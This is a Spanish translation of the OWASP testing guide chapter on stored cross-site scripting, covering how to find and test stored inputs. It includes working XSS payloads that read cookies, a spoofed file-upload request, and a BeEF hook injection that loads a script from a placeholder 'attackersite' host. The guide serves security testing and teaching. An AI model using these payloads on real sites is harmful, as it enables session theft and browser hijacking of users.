



# XSS almacenado

|ID          |
|------------|
|WSTG-INJT-02|

## Resumen

El [Cross-site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) almacenado es el tipo más peligroso de Cross Site Scripting. Las aplicaciones web que permiten a los usuarios almacenar datos están potencialmente expuestas a este tipo de ataque. Este capítulo presenta ejemplos de inyección de XSS almacenado y escenarios de explotación relacionados.

El XSS almacenado ocurre cuando una aplicación web recopila datos de un usuario que podrían ser maliciosos y luego los almacena en un almacén de datos para usarlos más adelante. Los datos almacenados no se filtran correctamente. Como consecuencia, los datos maliciosos aparecerán como parte del sitio y se ejecutarán en el navegador del usuario con los privilegios de la aplicación web. Dado que esta vulnerabilidad normalmente implica al menos dos solicitudes a la aplicación, también puede llamarse XSS de segundo orden.

Esta vulnerabilidad puede utilizarse para llevar a cabo una serie de ataques basados en navegador, entre ellos:

- Secuestrar el navegador de otro usuario
- Capturar información sensible que ven los usuarios de la aplicación
- Desfigurar parcialmente la aplicación
- Escanear los puertos de hosts internos («internos» en relación con los usuarios de la aplicación web)
- Enviar de forma dirigida exploits basados en navegador
- Llevar a cabo otras actividades maliciosas

El XSS almacenado no requiere que la víctima haga clic en un enlace malicioso: la explotación ocurre cuando un usuario visita una página con XSS almacenado. Las siguientes fases corresponden a un escenario típico de ataque de XSS almacenado:

- El atacante almacena código malicioso en la página vulnerable
- La víctima se autentica en la aplicación
- La víctima visita la página vulnerable
- El navegador de la víctima ejecuta el código malicioso

Este tipo de ataque también puede explotarse con marcos de explotación de navegadores como [BeEF](https://beefproject.com). Estos marcos permiten desarrollar exploits complejos en JavaScript.

El XSS almacenado es particularmente peligroso en las áreas de una aplicación a las que tienen acceso usuarios con privilegios elevados. Cuando el administrador visita la página vulnerable, su navegador ejecuta automáticamente el ataque. Esto podría exponer información sensible, como tokens de autorización de sesión.

## Objetivos de la prueba

- Identificar entradas almacenadas que se reflejen en el lado del cliente.
- Evaluar las entradas que acepta la aplicación y la codificación que se aplica al devolverlas, si corresponde.

## Cómo probar

### Pruebas de caja negra

El proceso para identificar vulnerabilidades de XSS almacenado es similar al proceso descrito para el [XSS reflejado](01-Reflected_Cross_Site_Scripting.md).

#### Formularios de entrada

El primer paso es identificar todos los puntos donde la entrada del usuario se almacena en el backend y luego la muestra la aplicación. Algunos ejemplos habituales de entradas de usuario almacenadas son:

- Página de usuario/perfil: la aplicación permite al usuario editar o cambiar detalles del perfil, como nombre, apellido, apodo, avatar, imagen, dirección, etc.
- Carrito de compras: la aplicación permite al usuario guardar artículos en el carrito de compras para revisarlos más adelante
- Administrador de archivos: aplicación que permite subir archivos
- Configuración/preferencias de la aplicación: aplicación que permite al usuario establecer preferencias
- Foro/tablón de mensajes: aplicación que permite intercambiar publicaciones entre usuarios
- Blog: si la aplicación de blog permite a los usuarios enviar comentarios
- Registro: si la aplicación almacena en registros algunas entradas de los usuarios.

> Nota: Esto también puede incluir rutas URL, cookies, encabezados HTTP y otros tipos de entradas de usuario menos evidentes, así como parámetros GET y POST.

#### Analizar el código HTML

La entrada almacenada por la aplicación suele utilizarse en etiquetas HTML, pero también puede encontrarse como parte del contenido JavaScript. En esta etapa, es fundamental comprender si la entrada se almacena y cómo se ubica en el contexto de la página. A diferencia del XSS reflejado, el pentester también debería investigar los canales fuera de banda por los que la aplicación recibe y almacena entradas de usuario, por ejemplo, mediante correo electrónico o la integración con aplicaciones externas.

> Nota: Deben probarse todas las áreas de la aplicación a las que tienen acceso los administradores para identificar si contienen datos enviados por los usuarios.

**Ejemplo**: Datos de correo electrónico almacenados en `index2.php`

\
*Figura 4.7.2-1: Ejemplo de entrada almacenada*

El código HTML de index2.php donde se encuentra el valor del correo electrónico:

```html
<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com" />
```

En este caso, el evaluador debe encontrar una forma de inyectar código fuera de la etiqueta `<input>`, como se muestra a continuación:

```html
<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"> CÓDIGO MALICIOSO <!-- />
```

#### XSS almacenado

Esto implica probar los controles de validación y filtrado de entradas de la aplicación. Algunos ejemplos básicos de inyección en este caso son:

- `aaa@aa.com&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;`
- `aaa@aa.com%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E`

Asegúrese de enviar la entrada a través de la aplicación. Normalmente, esto implica deshabilitar JavaScript si hay controles de seguridad del lado del cliente o modificar la solicitud HTTP con un proxy web. También es importante probar la misma inyección con solicitudes HTTP GET y POST. La inyección anterior genera una ventana emergente que contiene los valores de las cookies.

> \
> *Figura 4.7.2-2: Ejemplo de entrada almacenada*
>
> Código HTML que aparece después de la inyección:
>
> ```html
> <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"><script>alert(document.cookie)</script>
> ```
>
> La entrada se almacena y el navegador ejecuta la carga útil XSS al volver a cargar la página. Si la aplicación escapa la entrada, los evaluadores deberían comprobar si la aplicación tiene filtros XSS. Por ejemplo, si la cadena "SCRIPT" se reemplaza por un espacio o por un carácter NULL, esto podría indicar que hay un filtro XSS en funcionamiento. Existen muchas técnicas para evadir filtros de entrada (véase el capítulo sobre [XSS reflejado](01-Reflected_Cross_Site_Scripting.md)). Se recomienda encarecidamente que los evaluadores consulten [XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) y otras páginas de referencia sobre XSS, que ofrecen una lista extensa de ataques XSS y formas de evadir filtros. Consulte la sección de documentos técnicos y herramientas para obtener información más detallada.

#### Aprovechar el XSS almacenado con BeEF

El XSS almacenado puede explotarse mediante marcos avanzados de explotación de JavaScript, como [BeEF](https://beefproject.com).

Un escenario típico de explotación con BeEF implica:

- Inyectar un gancho de JavaScript que se comunica con el marco de explotación de navegadores del atacante (BeEF)
- Esperar a que el usuario de la aplicación visite la página vulnerable donde se muestra la entrada almacenada
- Controlar el navegador del usuario de la aplicación desde la consola de BeEF

El gancho de JavaScript puede inyectarse al explotar la vulnerabilidad XSS de la aplicación web.

**Ejemplo**: Inyección de BeEF en `index2.php`:

```html
aaa@aa.com"><script src=https://attackersite/hook.js></script>
```

Cuando el usuario carga la página `index2.php`, el navegador ejecuta el script `hook.js`. Entonces es posible acceder a las cookies, a una captura de pantalla del usuario y al portapapeles del usuario, así como lanzar ataques XSS complejos.

> \
> *Figura 4.7.2-3: Ejemplo de inyección de BeEF*
>
> Este ataque es particularmente eficaz en páginas vulnerables que visitan muchos usuarios con distintos privilegios.

#### Subida de archivos

Si la aplicación web permite subir archivos, es importante comprobar si se puede subir contenido HTML. Por ejemplo, si se permiten archivos HTML o TXT, es posible inyectar una carga útil XSS en el archivo subido. El pentester también debería verificar si la subida de archivos permite establecer tipos MIME arbitrarios.

Considere la siguiente solicitud HTTP POST para subir un archivo:

```http
POST /fileupload.aspx HTTP/1.1
[…]
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.txt"
Content-Type: text/plain

test
```

Este defecto de diseño puede explotarse mediante ataques que aprovechan la gestión incorrecta de MIME en los navegadores. Por ejemplo, archivos aparentemente inocuos, como JPG y GIF, pueden contener una carga útil XSS que se ejecuta cuando el navegador los carga. Esto es posible si el tipo MIME de una imagen, como `image/gif`, puede establecerse como `text/html`. En ese caso, el navegador cliente tratará el archivo como HTML.

Solicitud HTTP POST falsificada:

```html
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.gif"
Content-Type: text/html

<script>alert(document.cookie)</script>
```

También tenga en cuenta que los navegadores antiguos, como Internet Explorer, podrían no gestionar los tipos MIME del mismo modo que Firefox, Chrome o Edge. Por ejemplo, Internet Explorer trataba algunos archivos TXT que contenían HTML como contenido HTML. Para obtener más información sobre la gestión de MIME, consulte la sección de documentos técnicos al final de este capítulo.

### Cross-site Scripting ciego

El Cross-site Scripting ciego es una forma de XSS almacenado. Por lo general, ocurre cuando la carga útil del atacante se guarda en el servidor o la infraestructura y luego la aplicación backend la devuelve a la víctima. Por ejemplo, en formularios de comentarios, un atacante puede enviar la carga útil maliciosa mediante el formulario; cuando el usuario o administrador del backend de la aplicación ve el envío del atacante a través de la aplicación backend, la carga útil del atacante se ejecuta. El Cross-site Scripting ciego es difícil de confirmar en situaciones reales, pero una de las mejores herramientas para ello es [XSS Hunter](https://xsshunter.com/).

> Nota: Los evaluadores deberían considerar cuidadosamente las implicaciones para la privacidad de utilizar servicios públicos o de terceros al realizar pruebas de seguridad. (Véase [#tools](#tools).)

### Pruebas de caja gris

Las pruebas de caja gris son similares a las pruebas de caja negra. En las pruebas de caja gris, el pentester tiene un conocimiento parcial de la aplicación. En este caso, el pentester podría conocer información sobre las entradas de usuario, los controles de validación de entradas y el almacenamiento de datos.

Según la información disponible, normalmente se recomienda que los evaluadores comprueben cómo procesa la aplicación las entradas de usuario y cómo las almacena después en el sistema backend. Se recomiendan los siguientes pasos:

- Usar la aplicación frontend e introducir entradas con caracteres especiales o no válidos
- Analizar las respuestas de la aplicación
- Identificar si hay controles de validación de entradas
- Acceder al sistema backend y comprobar si la entrada se almacena y cómo se almacena
- Analizar el código fuente y comprender cómo representa la aplicación la entrada almacenada

Si se dispone del código fuente (como en las pruebas de caja blanca), deben analizarse todas las variables utilizadas en los formularios de entrada. En particular, lenguajes de programación como PHP, ASP y JSP utilizan variables o funciones predefinidas para almacenar entradas de solicitudes HTTP GET y POST.

La siguiente tabla resume algunas variables y funciones especiales que se deben buscar al analizar el código fuente:

| **PHP**        | **ASP**           |  **JSP**         |
|----------------|-------------------|------------------|
| `$_GET` - variables HTTP GET  | `Request.QueryString` - HTTP GET | servlets `doGet`, `doPost` - HTTP GET y POST |
| `$_POST` - variables HTTP POST| `Request.Form` - HTTP POST | `request.getParameter` - variables HTTP GET/POST |
| `$_REQUEST` - variables HTTP POST, GET y COOKIE | `Server.CreateObject` - se utiliza para subir archivos | |
| `$_FILES` - variables de subida de archivos HTTP | | |
| `$_SERVER` - encabezados HTTP | | |

> Nota: La tabla anterior es solo un resumen de los parámetros más importantes, pero deben investigarse todos los parámetros de entrada de usuario.

## Herramientas

- [Hackvertor](https://hackvertor.co.uk/) es una herramienta en línea que permite aplicar muchos tipos de codificación y ofuscación a JavaScript (o a cualquier cadena de entrada).
- [BeEF](https://beefproject.com) es un marco de explotación de navegadores. Es una herramienta profesional para demostrar el impacto en tiempo real de las vulnerabilidades de los navegadores.
- [Burp Proxy](https://portswigger.net/burp/) es un servidor proxy HTTP/S interactivo para atacar y probar aplicaciones web.
- [XSS Assistant](https://www.greasespot.net/) es un script de Greasemonkey que permite a los usuarios probar fácilmente cualquier aplicación web para detectar fallos de cross-site scripting.
- [Zed Attack Proxy (ZAP)](https://www.zaproxy.org) es un servidor proxy HTTP/S interactivo para atacar y probar aplicaciones web, con un escáner integrado.
- [XSS Hunter Portable](https://github.com/mandatoryprogrammer/xsshunter) encuentra todo tipo de vulnerabilidades de cross-site scripting, incluido el XSS ciego que a menudo pasa inadvertido.

## Referencias

### Recursos de OWASP

- [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### Libros

- Joel Scambray, Mike Shema, Caleb Sima - "Hacking Exposed Web Applications", Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0
- Dafydd Stuttard, Marcus Pinto - "The Web Application's Handbook - Discovering and Exploiting Security Flaws", 2008, Wiley, ISBN 978-0-470-17077-9
- Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10: 1-59749-154-3

### Documentos técnicos

- [CERT: "CERT Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests"](https://resources.sei.cmu.edu/library/asset-view.cfm?assetID=496186)
- [Amit Klein: "Cross-site Scripting Explained"](https://courses.csail.mit.edu/6.857/2009/handouts/css-explained.pdf)
- [CGISecurity.com: "The Cross Site Scripting FAQ"](https://www.cgisecurity.com/xss-faq.html)